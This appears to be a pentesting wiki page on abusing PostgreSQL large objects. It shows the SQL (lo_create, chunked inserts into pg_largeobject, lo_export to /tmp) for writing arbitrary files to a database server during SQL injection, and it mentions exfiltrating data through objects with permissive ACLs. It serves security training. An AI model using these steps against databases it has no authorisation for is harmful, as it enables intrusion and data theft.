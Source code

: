 {{#include ../../../banners/hacktricks-training.md}}

### PostgreSQL Large Objects

PostgreSQL offers a structure known as **large objects**, accessible via the `pg_largeobject` table, designed for storing large data types, such as images or PDF documents. This approach is advantageous over the `COPY TO` function as it enables the **exportation of data back to the file system**, ensuring an exact replica of the original file is maintained.

For **storing a complete file** within this table, an object must be created in the `pg_largeobject` table (identified by a LOID), followed by the insertion of data chunks, each 2KB in size, into this object. It is crucial that these chunks are exactly 2KB in size (with the possible exception of the last chunk) to ensure the exporting function performs correctly.

To **divide your binary data** into 2KB chunks, the following commands can be executed:

```bash
split -b 2048 your_file # Creates 2KB sized files
```

For encoding each file into Base64 or Hex, the commands below can be used:

```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```

**Important**: When automating this process, ensure to send chunks of 2KB of clear-text bytes. Hex encoded files will require 4KB of data per chunk due to doubling in size, while Base64 encoded files follow the formula `ceil(n / 3) * 4`.

The contents of the large objects can be viewed for debugging purposes using:

```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Using `lo_creat` & Base64

To store binary data, a LOID is first created:

```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```

In situations requiring precise control, such as exploiting a Blind SQL Injection, `lo_create` is preferred for specifying a fixed LOID.

Data chunks can then be inserted as follows:

```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```

To export and potentially delete the large object after use:

```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```

#### Using `lo_import` & Hex

The `lo_import` function can be utilized to create and specify a LOID for a large object:

```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```

Following object creation, data is inserted per page, ensuring each chunk does not exceed 2KB:

```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```

To complete the process, the data is exported and the large object is deleted:

```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```

### Limitations

It's noted that **large objects may have ACLs** (Access Control Lists), potentially restricting access even to objects created by your user. However, older objects with permissive ACLs may still be accessible for content exfiltration.

{{#include ../../../banners/hacktricks-training.md}}

